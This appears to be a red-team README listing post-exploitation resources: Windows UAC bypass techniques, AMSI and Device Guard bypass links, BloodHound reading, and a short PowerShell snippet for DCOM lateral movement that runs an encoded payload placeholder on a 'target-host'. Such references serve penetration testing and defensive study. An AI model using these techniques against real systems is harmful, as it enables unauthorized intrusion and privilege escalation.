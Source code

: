 # Post-Exploitation Resources Guide

> **🎯 Comprehensive collection of techniques, tools, and resources for post-exploitation activities**  
> *For authorized penetration testing and red team operations only*

---

## 🔄 Lateral Movement

### UAC Bypass Techniques
| Technique | Description | Reference |
|-----------|-------------|-----------|
| **Eventvwr File-less UAC Bypass** | CNA implementation for UAC bypass | [MDSec Guide](https://www.mdsec.co.uk/2016/12/cna-eventvwr-uac-bypass/) |
| **Sdclt.exe UAC Bypass** | Fileless UAC bypass using sdclt | [SpecterOps Research](https://posts.specterops.io/fileless-uac-bypass-using-sdclt-exe-3e9f9ad4e2b3) |
| **Registry Hijacking** | Eventvwr.exe and registry hijacking | [Enigma0x3 Blog](https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/) |
| **Disk Cleanup Bypass** | Windows 10 UAC bypass via disk cleanup | [Enigma0x3 Blog](https://enigma0x3.net/2016/07/22/bypassing-uac-on-windows-10-using-disk-cleanup/) |
| **App Paths Bypass** | UAC bypass using application paths | [Enigma0x3 Blog](https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/) |

### Advanced Lateral Movement
```powershell
# Excel Application DCOM Lateral Movement
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application", "target-host"))
$excel.Application.Run("calc.exe")

# WSH Injection Example
$wsh = [activator]::CreateInstance([type]::GetTypeFromProgID("WScript.Shell", "target-host"))
$wsh.Run("powershell.exe -enc <base64_payload>")
```

### Key Resources
- 📖 [Lateral Movement using Excel and DCOM](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)
- 📖 [WSH Injection Case Study](https://posts.specterops.io/wsh-injection-a-case-study-fd35f79d29dd)
- 📖 [AMSI Bypass via COM Server Hijacking](https://posts.specterops.io/bypassing-amsi-via-com-server-hijacking-b8a3354d1aff)
- 📖 [Windows 10 Device Guard Bypasses](https://github.com/tyranid/DeviceGuardBypasses)

---

## 🩸 BloodHound & Active Directory

### BloodHound Resources
- 🔍 [My First Go with BloodHound](https://blog.cobaltstrike.com/2016/12/14/my-first-go-with-bloodhound/)
- 🔍 [Lay of the Land with BloodHound](http://threat.tevora.com/lay-of-the-land-with-bloodhound/)
- 🔍 [Extending BloodHound for Red Teamers](https://www.youtube.com/watch?v=Pn7GWRXfgeI)
